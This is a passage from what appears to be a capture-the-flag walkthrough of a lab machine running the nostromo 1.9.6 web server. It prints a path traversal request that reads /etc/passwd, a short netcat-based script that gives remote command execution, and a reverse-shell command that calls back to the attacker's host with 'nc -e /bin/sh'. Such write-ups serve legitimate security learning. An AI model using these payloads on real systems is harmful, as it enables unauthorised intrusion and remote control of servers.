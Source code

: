 This exploit relies on a path traversal protection bypass, which can be used
to request arbitrary files of the server.
```
debian $ printf "GET /.%%0d./.%%0d./.%%0d./.%%0d./etc/passwd HTTP/1.0\r\n\r\n" | nc 10.10.10.165 80
HTTP/1.1 200 OK
Date: Thu, 16 Apr 2020 02:05:27 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 18:34:30 GMT
Content-Length: 1395
Content-Type: text/html

root:x:0:0:root:/root:/bin/bash
...
david:x:1000:1000:david,,,:/home/david:/bin/bash
...
```

Unfortunetly for the users of nostromo, and fortunetly for us this gets much
worse when we `POST` instead of `GET`-ing. We can post commands to `/bin/sh`
and instead of giving us the binary contents, the server executes it with **our**
input, thus we gain remote command execution with the same permission
as nostromo itself has.

The following shell script implements this.
```
#!/bin/sh
# Usage: rce.sh ip command
printf "POST /.%%0d./.%%0d./.%%0d./.%%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n$2 2>&1\n" | nc $1 80
```

This might look very dense, but all we are doing is generating an HTTP request
using printf into netcat with the body of the request being the command we
intend to execute. The two `echo` commands are necessary for nostromo to
return the output instead of failing with a `500 Internal Server Error`.

Using our RCE script we get a reverse shell with nostromo's persmissions.

First shell on hacker computer:
```
debian $ nc -lvp 9999
www-data@traverxec $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@traverxec $ hostname
traverxec
```

Second shell on hacker computer:
```
debian $ ./rce.sh 10.10.10.165 "nc hacker_ip 9999 -e /bin/sh"
```

## Step 3: Owning david
Using the reverse shell from the last step I enumerate what can I access as
`www-data`.
